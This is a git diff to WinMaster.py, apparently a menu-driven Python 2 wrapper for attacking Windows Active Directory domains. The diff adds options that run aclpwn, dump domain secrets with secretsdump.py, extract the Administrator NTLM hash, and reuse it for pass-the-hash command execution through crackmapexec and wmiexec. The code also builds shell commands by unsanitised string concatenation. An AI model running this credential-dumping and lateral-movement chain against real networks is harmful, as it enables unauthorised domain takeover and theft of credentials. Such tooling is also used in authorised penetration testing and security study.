

Updates

diff --git a/WinMaster.py b/WinMaster.py
@@ -79,7 +79,7 @@ def gettime(value):
    return variable
 
 def command(command):
-   print colored("Using Command: " + command + "\n", 'white')	# COMMENT OUT TO STOP DEBUGGING COMMANDS
+#   print colored("Using Command: " + command + "\n", 'white')	# COMMENT OUT TO STOP DEBUGGING COMMANDS
    os.system(command)
    raw_input("\nPress ENTER to continue...")
    return
@@ -194,7 +194,7 @@ def display():
    print u'\u2551'
    
    print u'\u2551' + " IMPERSONATE  " + u'\u2502',
-   if POR == "administrator      ":
+   if POR == "Administrator      ":
       print colored(POR[:COL1],'yellow'),
    else:
       print colored(POR[:COL1],'blue'),
@@ -259,7 +259,7 @@ def display():
    print u'\u2551' + "(4) Re/Set PASSWORD    (14) Get Architecture   (24) Services  (34) RpcDump        (44) GetAdUsers     (54) BLANK        (64) WinRem " + u'\u2551'
    print u'\u2551' + "(5) Re/Set FOREST NAME (15) Fierce DNS SERVER  (25) AtExec    (35) Reg            (45) KerbCheckUsers (55) BLANK        (65) BLANK  " + u'\u2551'
    print u'\u2551' + "(6) Re/Set DOMAIN NAME (16) Nmap O/S + Skew    (26) DcomExec  (36) SmbClient      (46) GetNpUsers     (56) BLANK        (66) BLANK  " + u'\u2551'
-   print u'\u2551' + "(7) Re/Set WORK GROUP  (17) Nmap Subdomains    (27) PsExec    (37) SmbMap SHARE   (47) SecretsDump    (57) BLANK        (67) BLANK  " + u'\u2551'
+   print u'\u2551' + "(7) Re/Set WORK GROUP  (17) Nmap Subdomains    (27) PsExec    (37) SmbMap SHARE   (47) BLANK          (57) BLANK        (67) BLANK  " + u'\u2551'
    print u'\u2551' + "(8) Re/Set SHARE NAME  (18) Nmap Intense TCP   (28) SmbExec   (38) SmbMount SHARE (48) WinDapSearch   (58) BLANK        (68) BLANK  " + u'\u2551'
    print u'\u2551' + "(9) Re/Set IMPERSONATE (19) Nmap Slow and Full (29) WmiExec   (39) Enum4Linux     (49) LdapDomainDump (59) BLANK        (69) BLANK  " + u'\u2551'
    print u'\u255A' + (u'\u2550')*132 + u'\u255D'
@@ -315,6 +315,12 @@ if not os.path.exists("users.txt"):		# HOLDS CURRENT FILTERED USER LIST
 else:
    print "[-] File users.txt already exists..."
 
+if not os.path.exists("SECRETS.tmp"):		# HOLDS INITIAL SECRETS DATA
+   os.system("touch SECRETS.tmp")
+   print "[-] File SECRETS.tmp created..."
+else:
+   print "[-] File SECRETS.tmp already exists..."
+
 print "[-] Populating system variables..."
 
 COL1 = 19
@@ -362,7 +368,8 @@ US   = [X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,X1,
 PA   = [X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2,X2] # 40 PASSWORDS
 MAX  = 39
 
-PA[0] = "32693b11e6aa90eb43d32c72a07ceea6" # TEMPORY ASSIGNED VARIABLE WHILE TESTING
+BH1 = "neo4j"		# TEMP
+BH2 = "neo4j"		# TEMP
 
 # -------------------------------------------------------------------------------------
 # AUTHOR  : Terence Broadbent                                                    
@@ -382,7 +389,7 @@ if not os.path.exists('config.txt'):
    HST  = "EMPTY              " # DOMAIN NAME
    WGRP = "EMPTY              " # WORK GROUP
    HIP  = "EMPTY              " # CURRENT SHARE
-   POR  = "administrator      " # IMPERSONATE
+   POR  = "Administrator      " # IMPERSONATE
    PRM  = "'dir -FORCE'       " # WIN COMMAND                                            
    PI1  = "00:00              " # LOCAL TIME    
    DIR  = "WORKAREA           " # DIRECTORY
@@ -458,6 +465,11 @@ while True:
       os.system("echo " + tmp + " >> config.txt")  
       os.system("echo " + PI1  + " >> config.txt")  
       os.system("echo " + DIR  + " >> config.txt")  
+      
+      os.remove("SECRETS.tmp")
+      os.remove("SHARES.tmp")
+      os.remove("USERS.tmp")
+      os.remove("users.txt")
 
       exit(1)
 
@@ -1139,7 +1151,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection =='45':
+   if selection == '45':
       print "\nPlease wait..."
       os.remove("USERS.tmp")	# CLEAR WORK FILE
       os.system("nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=" + HST.rstrip(" ") + ",userdb=users.txt " + TIP.rstrip(" ") + " >> KUSERS.tmp")
@@ -1192,12 +1204,12 @@ while True:
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - secretsdump.py domain/user:PAS@ip
+# Details : Menu option selected - 
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
    if selection =='47':
-      command(PRO + "secretsdump.py " + HST.rstrip(" ") + '/' + USR.rstrip(" ") + ":" + PAS.rstrip(" ") + "@" + TIP.rstrip(" "))
+      exit(1)
 
 #------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1232,40 +1244,66 @@ while True:
 # -------------------------------------------------------------------------------------
 
    if selection =='50':
-      exit(1) 
+      print "\nBLOODHOUND NEEDS TO BE RUNNING AND CONFIGURED FOR THIS TO WORK...\n"
+      command("aclpwn -du " + BH1 + " -dp " + BH2 + " -f " + USR.rstrip(" ") + " -d " + HST.rstrip(" ") + " -sp " + PAS.rstrip(" ") + " -s " + TIP.rstrip(" "))
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - 
+# Details : Menu option selected - YOU NEED TO SUCCESFULLY RUN 50 ABOVE FIRST TO WORK!!!
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
    if selection =='51':
-      exit(1)       
+      os.remove("SECRETS.tmp")
+      os.system(PRO + "secretsdump.py " + HST.rstrip(" ") + '/' + USR.rstrip(" ") + ":" + PAS.rstrip(" ") + "@" + TIP.rstrip(" ") + " >> SECRETS.tmp")
+      command("cat SECRETS.tmp")
+      os.system("sed -i -n '/Administrator/p' SECRETS.tmp")	# SELECT ONLY ADMINISTRATOR
+      HASH = linecache.getline('SECRETS.tmp', 1)
+      HASH = HASH.replace (":"," ")
+      HASH = HASH.rstrip(" ")
+      os.system("echo '" + HASH.rstrip(" ") + "' >> SECRETS2.tmp")
+      os.system("awk 'NF>1{print $NF}' < SECRETS2.tmp > HASH.tmp")
+      os.remove("SECRETS2.tmp")
+      HASH = linecache.getline('HASH.tmp', 1)
+      os.system("mv HASH.tmp SECRETS.tmp")
+      HASH = HASH.rstrip("\n")
+      HASH = padding(HASH, COL4)
+
+      for x in range (0,MAX):
+         if US[x].rstrip(" ") == "Administrator":
+            PA[x] = HASH
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - TEMP PA[0] = needs more refining!!
+# Details : Menu option selected - HASH NEEDS TO EXIST
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
    if selection =='52':
-      command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + POR.strip(" ") + " -H " + PA[0] + " -x 'net user Administrator /domain' --exec-method smbexec")
+      for x in range (0,MAX):
+         if US[x].rstrip(" ") == POR.rstrip(" "):
+            HASHED = PA[x].rstrip(" ")
+
+      command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + POR.rstrip(" ") + " -H " + HASHED + " -x 'net user Administrator /domain' --exec-method smbexec")
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
 # CONTRACT: GitHub
 # Version : 1.0
-# Details : Menu option selected - 
+# Details : Menu option selected - HASH NEEDS TO EXIST
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
    if selection =='53':
-      command(PRO + "wmiexec.py -hashes :" + PA[0] + " administrator@" + TIP.rstrip(" "))
+      for x in range (0,MAX):
+         if US[x].rstrip(" ") == POR.rstrip(" "):
+            HASHED = PA[x].rstrip(" ")
+
+      command(PRO + "wmiexec.py -hashes :" + HASHED + " administrator@" + TIP.rstrip(" "))
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
